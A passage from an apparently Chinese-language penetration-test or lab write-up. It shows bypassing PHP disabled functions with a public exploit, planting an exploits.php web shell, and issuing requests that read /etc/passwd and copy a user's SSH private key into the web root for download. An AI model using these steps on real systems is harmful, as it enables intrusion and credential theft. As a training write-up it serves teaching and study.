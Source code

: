 使用  assert() 函数时会发现警告

```
Warning**: Cannot call assert() with string argument dynamically
```

被禁的函数太多了，试试网上的一些工具：

php7-backtrace-bypass https://github.com/mm0r1/exploits

还是用以上的老办法远程写入文件生成文件，把 exploits.php 写入到网站目录

<img src=".\图片\Snipaste_2023-05-11_15-15-14.png" alt="Snipaste_2023-05-11_15-15-14" style="zoom:80%;" />

## 权限提升

### 密匙登录SSH

```http
http://www.cf1.com/expilots.php?x=cat%20/etc/passwd
```

发现用户 cf1，且 home 里有 SSH 的公钥私钥 

<img src=".\图片\Snipaste_2023-05-11_15-28-47.png" alt="Snipaste_2023-05-11_15-28-47" style="zoom:67%;" />

把私钥 id_rsa 复制到网站目录，方便我们下载：

```http
http://www.cf1.com/expilots.php?x=cp%20/home/cf1/id_rsa%20/www/wwwroot/www.cf1.com/id_rsa
```
